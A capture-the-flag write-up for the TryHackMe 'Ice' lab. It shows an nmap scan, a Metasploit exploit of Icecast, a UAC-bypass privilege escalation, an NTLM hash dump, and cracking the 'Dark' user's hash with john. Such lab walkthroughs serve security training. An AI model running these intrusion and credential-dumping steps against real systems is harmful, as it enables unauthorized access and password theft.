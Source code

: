 ```yaml
---
layout: solution
category: TryHackMe
contest_code: General
contest_name: General
problem_code: ICE
problem_name: Ice
comments: false
tags: windows nmap mimikatz metasploit
date: 2021-08-19
---
```


### A simple nmap scan was conducted on the machine. Interesting services like rdp, http were running. Something eye catching was found where a service called icecast was running for http
```
nmap -sV -sC 10.10.7.18
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Ice/nmap.png)

‎


###  Metasploit was then launched and looked for any vulnerability related to icecast and there was 1. Thus, we exploit the machine using that vulnerability

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Ice/metasploit.png)

<p style="color:orange;">‎Started Listener</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Ice/listener.png)

‎


### We need to escalate our priviledges. Thus an attempt was made to perform post-exploitation enumeration by running a local_exploit_suggester on the meterpreter session that listed possible local exploit we can perform. The first ne looked promising thus it was selected for priviledge escalation and was successful. 
```
run post/multi/recon/local_exploit_suggester
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Ice/exploit_suggester.png)

```
use exploit/windows/local/bypassuac_eventvwr
```
![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Ice/priv_escal.png)


‎


### Now we need to get the password for the 'DARK' user for the flag. Thus kiwi was loaded to dump the ntlm hashes. And then john the ripper was used to crack the hash

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Ice/hashdump.png)

<pre 
  class="command-line" 
  data-prompt="shank@kali:~$ " 
  data-output="2"
><code class="language-bash">cat passw
Dark:7c4fe5eada682714a036e39378362bab
</code>
</pre> 

‎
<p style="color:orange;">‎Cracking Password</p>

```
john --format=NT --wordlist=/usr/share.wordlists/rockyou.txt passw
```
‎![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Ice/crack_pass.png)

